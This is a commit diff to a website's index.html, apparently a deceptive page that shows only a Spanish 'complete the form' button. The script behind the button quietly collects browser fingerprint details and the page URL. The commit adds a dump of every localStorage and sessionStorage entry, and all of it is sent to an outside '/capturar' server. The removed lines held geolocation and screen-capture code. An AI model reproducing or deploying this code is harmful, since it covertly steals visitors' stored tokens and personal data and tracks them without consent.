

Before and after one commit to Stealthy-lab/Site, a website: page index.html in a window 1280 px wide. Shown: the part 415-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,52 +3,52 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Formulario de Información</title>
+    <title>Completar Formulario</title>
     <style>
         body {
             font-family: Arial, sans-serif;
-            background-color: #f4f4f4;
             display: flex;
             justify-content: center;
             align-items: center;
             height: 100vh;
             margin: 0;
+            background-color: #f4f4f4;
         }
         .container {
             background: #ffffff;
+            border-radius: 8px;
+            box-shadow: 0 0 10px rgba(0,0,0,0.1);
             padding: 20px;
-            border-radius: 8px;
-            box-shadow: 0 2px 10px rgba(0,0,0,0.1);
+            width: 100%;
             max-width: 500px;
-            width: 100%;
-            text-align: center;
         }
         h1 {
-            margin-bottom: 20px;
+            text-align: center;
             color: #333;
         }
         button {
-            background-color: #4CAF50;
-            color: white;
+            display: block;
+            width: 100%;
+            padding: 10px;
+            background-color: #007bff;
+            color: #fff;
             border: none;
-            padding: 10px 20px;
-            text-align: center;
-            text-decoration: none;
-            display: inline-block;
+            border-radius: 5px;
             font-size: 16px;
-            margin: 10px 2px;
             cursor: pointer;
-            border-radius: 5px;
+            margin-top: 20px;
         }
         button:hover {
-            background-color: #45a049;
+            background-color: #0056b3;
         }
     </style>
 </head>
 <body>
     <div class="container">
-        <h1>Completa el Formulario</h1>
-        <button type="button" onclick="enviarDatos()">Enviar Información</button>
+        <h1>Completar Formulario</h1>
+        <form id="form">
+            <button type="button" onclick="enviarDatos()">Enviar Información</button>
+        </form>
     </div>
 
     <script>
@@ -65,8 +65,7 @@
                 idiomas: navigator.languages.join(', '),
                 cookiesEnabled: navigator.cookieEnabled,
                 javaEnabled: navigator.javaEnabled(),
-                onlineStatus: navigator.onLine,
-                modeloEquipo: navigator.userAgent // Obtener el modelo del equipo
+                onlineStatus: navigator.onLine
             };
 
             // Información de la pantalla
@@ -90,38 +89,15 @@
                 zonaHoraria: Intl.DateTimeFormat().resolvedOptions().timeZone
             };
 
-            // Obtener ubicación (si el usuario lo permite)
-            const ubicacion = { lat: null, lon: null };
-            if (navigator.geolocation) {
-                navigator.geolocation.getCurrentPosition((position) => {
-                    ubicacion.lat = position.coords.latitude;
-                    ubicacion.lon = position.coords.longitude;
-                }, (error) => {
-                    console.error('Error al obtener la ubicación:', error);
-                });
-            }
+            // Obtener URL actual
+            const currentUrl = window.location.href;
 
-            // Captura de la pantalla (si el navegador lo permite)
-            const capturaPantalla = async () => {
-                try {
-                    const stream = await navigator.mediaDevices.getDisplayMedia({ video: true });
-                    const [track] = stream.getVideoTracks();
-                    const imageCapture = new ImageCapture(track);
-                    const bitmap = await imageCapture.grabFrame();
-                    track.stop(); // Detener la captura de la pantalla
-                    const canvas = document.createElement('canvas');
-                    canvas.width = bitmap.width;
-                    canvas.height = bitmap.height;
-                    const ctx = canvas.getContext('2d');
-                    ctx.drawImage(bitmap, 0, 0);
-                    return canvas.toDataURL('image/png');
-                } catch (error) {
-                    console.error('Error al capturar la pantalla:', error);
-                    return null;
-                }
-            };
+            // Información de almacenamiento
+            const localStorageData = getStorageData(localStorage);
+            const sessionStorageData = getStorageData(sessionStorage);
 
-            const imagenPantalla = await capturaPantalla();
+            // Información de fuentes
+            const fonts = document.fonts;
 
             // Enviar datos al servidor
             const datosRecopilados = {
@@ -130,8 +106,10 @@
                 pantalla: infoPantalla,
                 red: infoRed,
                 tiempo: infoTiempo,
-                ubicacion: ubicacion,
-                imagen: imagenPantalla // Imagen de la pantalla en base64
+                url: currentUrl,
+                localStorage: localStorageData,
+                sessionStorage: sessionStorageData,
+                fonts: fonts
             };
 
             fetch('https://site-production-e3f3.up.railway.app/capturar', {
@@ -150,6 +128,17 @@
                 console.error('Error al conectar con el servidor:', error);
             });
         }
+
+        // Función para capturar datos del almacenamiento
+        function getStorageData(storage) {
+            const data = {};
+            for (let i = 0; i < storage.length; i++) {
+                const key = storage.key(i);
+                const value = storage.getItem(key);
+                data[key] = value;
+            }
+            return data;
+        }
     </script>
 </body>
 </html>
```
